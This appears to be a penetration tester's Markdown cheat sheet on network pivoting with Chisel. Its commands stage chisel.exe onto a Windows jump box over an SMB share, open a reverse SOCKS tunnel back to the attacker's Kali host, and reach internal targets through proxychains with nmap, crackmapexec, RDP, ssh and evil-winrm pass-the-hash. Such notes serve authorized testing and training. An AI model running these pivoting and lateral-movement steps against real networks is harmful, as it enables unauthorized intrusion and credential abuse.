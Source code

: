 # Port Forwarding with Chisel

## Config

Edit `/etc/proxychains4.conf` file

```bash
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
#socks4         127.0.0.1 9050
socks5          127.0.0.1 1080
```

Comment `socks4` line and add `socks5` line.

## Sharing and transferring the files

```bash
cd /usr/share/windows-resources/binaries
impacket-smbserver share $(pwd) -smb2support
```

- x86

```cmd
xcopy \\<Kali IP>\share\chisel\x86\chisel.exe C:\Temp\chisel\
```

- x64

```cmd
xcopy \\<Kali IP>\share\chisel\x64\chisel.exe C:\Temp\chisel\
```

## Kali <==> Windows JumpBox <==> Target

Kali - server

```bash
/opt/chisel/chisel server -p 8000 --reverse
```

Windows JumpBox - client

```cmd
.\chisel.exe client <Kali IP>:8000 R:socks
```

---

Access with nmap

- -Pn: Treat all hosts as online -- skip host discovery
- -n: Never do DNS resolution
- -sS/sT/sA/sW/sM: TCP SYN/Connect()/ACK/Window/Maimon scans

```bash
proxychains nmap -sT -p <Target Ports> -Pn -n <Target IP>
```

Access with mysql

```bash
proxychains mysql -h <Target IP> -u <user> -p
```

Access with crackmapexec

```bash
proxychains crackmapexec smb <Target IP> -u '<user>' -p '<pwd>'
```

Access with RDP

```bash
proxychains xfreerdp /v:<Target IP> /u:'<user>' /p:'<pwd>'
```

Access with ssh

```bash
proxychains ssh <user>@<Target IP>
```

Access with Evil-WimRM

```bash
proxychains evil-winrm -u '<domain>\<user>' -H '<NTLMHASH>' -i <Target IP>
```

Access with Firefox (using FoxyProxy)

![Firefox - FoxyProxy](images/proxychains_chisel_firefox.png)

Access with dbeaver

![dbeaver](images/proxychains_chisel_dbeaver.png)

## Download

- [Chisel - releases](https://github.com/jpillora/chisel/releases)

## Links

- [YouTube - Elevate Cyber - Chisel](https://www.youtube.com/watch?v=dIqoULXmhXg)
- [Port Forwarding with Chisel](https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel)
